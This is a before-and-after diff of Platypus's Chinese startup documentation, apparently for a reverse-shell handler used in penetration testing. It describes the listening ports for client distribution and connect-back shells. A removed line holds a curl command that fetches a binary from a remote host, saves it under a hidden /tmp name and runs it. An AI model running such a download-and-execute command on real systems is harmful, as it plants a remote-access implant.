

Before and after one commit to WangYihang/Platypus, an MkDocs documentation site: the page built from doc/zh/docs/run.md, in a window 1280 px wide. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
[+] Update docs

````diff
--- a/doc/zh/docs/run.md
+++ b/doc/zh/docs/run.md
@@ -1,26 +1,15 @@
 # 启动过程
 
-运行成功后，Platypus 会首先检查是否存在新版本并询问用户是否升级，
-其次会检查自己的公网 IP 地址，
-接着进行端口的绑定监听，并输出用于辅助测试人员使用的反向 Shell 命令，
-最后终端将会出现命令提示符 `>>`，
-表明此时即可开始与 Platypus 进行交互。
+当 Platypus 运行后，会检测当前文件夹中是否存在 `config.yml` 文件，若无则会根据模板自动生成该配置文件，然后读取该配置文件进行启动。
 
-当 Platypus 运行后，会检测当前文件夹中是否存在 `config.yml` 文件，若无则会根据模板自动生成该配置文件。
-然后读取该配置文件进行启动。
+启动时，Platypus 会首先检查是否存在新版本并询问用户是否升级，
+其次会检查自己的公网 IP 地址，接着进行端口的绑定监听，
+并输出用于辅助测试人员使用的反向 Shell 命令，
+最后终端将会出现命令提示符 `» `，表明此时即可开始与 Platypus 进行交互。
 
 在默认情况下，Platypus 会按照 `config.yml` 中的配置监听 4 个端口。
 
 * `0.0.0.0:13339` 端口用来分发 Termite 客户端；
 * `0.0.0.0:13337` 端口用来接收回连的 Termite 客户端；
 * `0.0.0.0:13338` 端口用来接收回连的 Shell（该端口可视作 netcat 的升级版）；
-* `0.0.0.0:7331` 端口用来提供 Web 界面的访问以及 RESTful API 服务。
-
-!!! Tips
-    Termite 客户端是 Platypus 特有的客户端，支持交互式 Shell、文件传输以及网络隧道等功能。
-
-## 方案二：执行 Termite（推荐）
-
-```
-curl -fsSL http://1.3.3.7:13339/termite/1.3.3.7:13337 -o /tmp/.H0Z9 && chmod +x /tmp/.H0Z9 && /tmp/.H0Z9
-```
+* `127.0.0.1:7331` 端口用来提供 Web 界面的访问以及 RESTful API 服务。
````
Also changed, not shown: doc/zh/docs/01-index.md (+2 -2 lines), doc/zh/docs/02-quick-start.md (+3 -1 lines), doc/zh/docs/03-build.md (renamed from doc/zh/docs/build.md, +7 -1 lines), doc/zh/docs/04-interactive-with-shell.md (added, +48 -0 lines), doc/zh/docs/05-hashing.md (renamed from doc/zh/docs/hashing.md, +1 -1 lines), doc/zh/docs/06-upgrade.md (added, +5 -0 lines), doc/zh/docs/interactive.md (deleted, +0 -14 lines), doc/zh/docs/07-config.md (renamed from doc/zh/docs/config.md), doc/zh/docs/交互/cli.md (renamed from doc/zh/docs/interact/cli.md), doc/zh/docs/交互/sdk.md (renamed from doc/zh/docs/interact/sdk.md), doc/zh/docs/交互/web.md (renamed from doc/zh/docs/interact/web.md).
